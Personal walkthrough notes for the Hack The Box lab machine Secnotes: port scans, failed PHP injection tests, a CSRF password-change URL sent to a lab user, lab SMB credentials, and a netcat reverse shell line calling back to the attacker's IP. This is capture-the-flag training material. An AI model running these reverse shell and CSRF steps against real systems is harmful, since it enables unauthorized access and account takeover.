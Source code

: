 # Secnotes

10.10.10.97

![jerry](jerry.jpg)

# Enumerate

## Scan

```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m01s, deviation: 4h02m29s, median: 1s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2020-06-21T10:52:18-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-21T17:52:22
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.66 seconds
```

## Enumerate Services

* Web:
  * No exploit for IIS 10. 
  * Webpage on 80 has a login page. Shows whether username is valid or not. 
  * Port 8808 is a default IIS welcome page? 
  * Running dirbuster on both. Didn't find much of interest. 
  * Can create a user and log in.
  * sqlmap on login and register return nothing. 
  * Web page takes forever to load because of some off vpn assets. Add them to the hosts file to make it not miserable. Didn't really help but apparently firefox and lower some timeouts in about:config to get it to go faster. Also doesn't seem to help much. Might help to get the dual networking thing going again. 
    * https://blog.djsdev.com/2020/03/add-htb-vpn-to-kali-20201-and-fix-vpn.html
* SMB: 
  * smbmap and client doesn't give anything.
  * smb-enum users and shares doesn't find anything. 

# Access

## Custom Notes

* Try to make a note with php code to see what happens. What a day for the response to find out. 
* Adding a function to a note caused the alert to show up. Make a shell now. 

```
<?php
function_alert("We welcome the New World");

function function_alert($msg) {
    echo "<script type='text/javascript'>alert('$msg');</script>";
}
?>
```

* PHP reverse shell script was too long apparently. Maybe it'll process JS script tags directly. 
* This works on it's own but doesn't help:

```
echo "<script type='text/javascript'>alert('$msg');</script>";
```

* Maybe I can have it download a php shell or exe so I can navigate to it? 

```
echo "$file_url = 'http://10.10.14.9/revshell.exe';";
echo "header('Content-Type: application/octet-stream');";
echo "header("Content-Transfer-Encoding: Binary"); ";
echo "header("Content-disposition: attachment; filename=\"" . basename($file_url) . "\"");";
echo "readfile($file_url);";
```

* Think I need to wrap it in php and remove echos. 
* That didn't show anything on the page, but didn't download the file. 
* Can I execute commands? Nope

```
<?php
$output = shell_exec('dir');
echo "<pre>$output</pre>";
?>
```

* Can I create files?

```
<?php
$myfile = fopen("newfile.txt", "w") or die("Unable to open file!");
$txt = "John Doe\n";
fwrite($myfile, $txt);
$txt = "Jane Doe\n";
fwrite($myfile, $txt);
fclose($myfile);
?> 
```

* So these are all actually showing up in the response html. So it looks like it's not actually parsing the php? Ya I'm way off base here, this doesn't get me anything. 

## PW Change

* Looks like it's just based on the session ID that it knows what user. 
* Apparently the dude will respond to links if you just type the url. Tried to add a hyperlink but just putting in the text and it works? 
* Sent tyler a link that includes the argument that I got from intercepting a change password request with burp. 

```
http://10.10.10.97/change_pass.php?password=1234567&confirm_password=1234567&submit=submit
```

* One relevant note:

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

* Looks like maybe I can mount that. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Secnotes$ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
[+] IP: 10.10.10.97:445 Name: 10.10.10.97                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

* New-site is the 8808 page and I can write to it to upload a php shell. That php shell is a linux shell so that's not gonna work. 
* Figured out the directory we're in from having the php shell execute dir commands. 

```
dir /s iistart.htm
```

* Tried to do some windows stuff and having issues. Tried a powershell and got an error that it contains a virus. Maybe there's actually an AV blocking the others? Tried a few different ideas of reverse shells from this, but kept getting issues. 
  * https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
* Ippsec has a cool example of how to get simple command execution via a php request handler script. 
* Pipe powershell to nc for the command for windows reverse powershell through netcat. 

```
nc.exe 10.10.14.9 1235 -e powershell
```

# Escalate

## IIS -> Tyler

* Running scripts is disabled. 
* Had some issues with getting the download and run powershell command to work. Box is stopping it? 
* so... when I just changed the shell command in the php-reverse-shell, it connected back at IIS. But when I just upload a php script that directly calls nc, it returns as tyler. Weird. Seems like if I can upload files, just using nc and a direct call to exec in php is a good way to go. 

## Tyler -> Admin

* Should have gotten tyler right away, anyway, get flag now.
* winPEAS didn't find much.  
* See the bash.lnk and type it to find it's in win/sys32. 
* Can't make a stable reverse shell on the bash.exe using nc. 
* Can't just run bash the same way that they did? Not sure what's up. 
  * [x] Is there a difference between shell_exec and system in php? Not that I can tell. The system one didn't let me call bash either. Ya, there's no bash in that directory. 
* Could have also noticed that because it has bash, there's apparently some weird appdata folders that store the same stuff. 



# Lessons

* I guess try things like submit forms to see if there's some automation on the other side that people are responding to. 